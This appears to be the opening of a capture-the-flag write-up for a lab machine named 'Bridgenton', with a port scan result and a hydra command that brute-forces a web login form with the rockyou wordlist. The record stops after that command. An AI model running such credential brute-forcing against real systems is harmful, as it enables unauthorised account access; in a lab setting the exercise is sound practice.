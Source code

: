# Bridgenton

2025.03.24 https://thehackerslabs.com/bridgenton/

[video]()

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```
hydra -t 20 -l juan.perez@thl.com -P /usr/share/wordlists/rockyou.txt 192.168.5.39 -f http-post-form "/login.php:email=^USER^&password=^PASS^:F=Credenciales incorrectas"
```
